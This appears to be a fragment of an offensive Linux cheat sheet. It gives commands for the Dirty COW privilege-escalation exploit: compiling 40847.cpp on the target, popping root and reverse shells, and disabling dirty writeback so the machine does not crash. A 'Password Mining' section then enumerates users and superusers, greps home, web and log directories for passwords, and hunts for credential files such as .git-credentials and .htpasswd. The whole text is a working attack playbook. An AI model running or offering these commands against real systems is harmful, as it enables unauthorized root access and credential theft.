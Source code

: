 ### Pop root shell
```
./cowroot
```

### Disable dirty writeback may prevent machine from crash
```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

### Compile on target 40847.cpp
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### Pop reverse shell (automatically disable dirty writeback)
```
./dcow -s
```


# Password Mining
## Information about current user
```
id || (whoami && groups) 2>/dev/null
```

## Get all local user
```
cat /etc/passwd | cut -d ":" -f 1
```

## Get all superuser
```
awk -F: '($3 == "0") {print}' /etc/passwd 
```

## Search for passwords
```
grep -lRi "password" /home /var/www /var/log 2> /dev/null | sort | uniq
```

## Check interesting files
```
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/
```

## Find interesting files
```
find / -type f -name "*_history" -o -name ".sudo_as_admin_successful" -o -name ".profile" -o -name "*bashrc" -o -name "httpd.conf" -o -name "*.plan" -o -name ".htpasswd" -o -name ".git-credentials" -o -name "*.rhosts" -o -name "hosts.equiv" -o -name "Dockerfile" -o -name "docker-compose.yml"  2>/dev/null
```
